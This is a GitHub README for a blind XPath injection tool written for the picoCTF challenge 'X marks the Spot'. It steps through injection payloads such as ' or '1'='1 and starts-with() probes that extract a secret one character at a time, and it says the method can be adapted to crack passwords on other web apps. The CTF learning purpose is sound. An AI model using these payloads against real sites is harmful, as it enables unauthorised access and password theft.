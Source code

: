 # XPATH-Injection-Password-finder
A tool using XPATH injections &amp; python to find the password of a user in the database. 
This tool is especially useful for blind XPATH injections!

This tool was wrote specifically for the picoCTF challenge 'X marks the Spot' however the code is simple and can be edited for 
to crack passwords on other web apps vulnerable to XPATH injections where we can use functions like starts-with(), count(), substring().

-----------------------------------------------------------------------
How it works

The vulnerable website is located at 'http://mercury.picoctf.net:53735'
and takes a username and a password. I orignally thought this was a SQL
injection but I was wrong.

If we enter with username:admin,password:admin
we get a login failed. I used BurpSuites proxy
to take this into the Repeater so I can easily send
accross expoits to see the result

We log in with a POST request and the data is in the form

name=admin&password=admin

If you enter a ' an error throws, nice.
'Internal Server Error'

If we enter 

name=' or '1'='1&pass=test (SUCCESS)

we get 'Your on the right path.' Great, this must be a blind SQL and all we get back is if the XPATH returns true or false
now, see if you follow my train of thoughts and hopefully understand how this works by the end of these conseutivve exploits

 name=' or 'x'='y&pass=test (FAIL)
 name' or 1=1 or 'x'='y&pass=test (SUCCESS) 
 name' or //*[starts-with(text(),'randomWord')] or 'x'='y&pass=test (FAIL)
  name' or //*[starts-with(text(),'picoCTF{')] or 'x'='y&pass=test (SUCCESS)
   name' or //*[starts-with(text(),'picoCTF{a')] or 'x'='y&pass=test (FAIL)
   .
   .
   .
    name' or //*[starts-with(text(),'picoCTF{h')] or 'x'='y&pass=test (SUCCESS)
    name' or //*[starts-with(text(),'picoCTF{ha')] or 'x'='y&pass=test (FAIL)
    ....
    name' or //*[starts-with(text(),'picoCTF{h0')] or 'x'='y&pass=test (SUCCESS)
    
    
    
    basically you have to brute force each character and check if the new string exists in the data base (therefore will return true and add that character to the string now) or if it doesnt exist in the database it will return false and try the next character
 
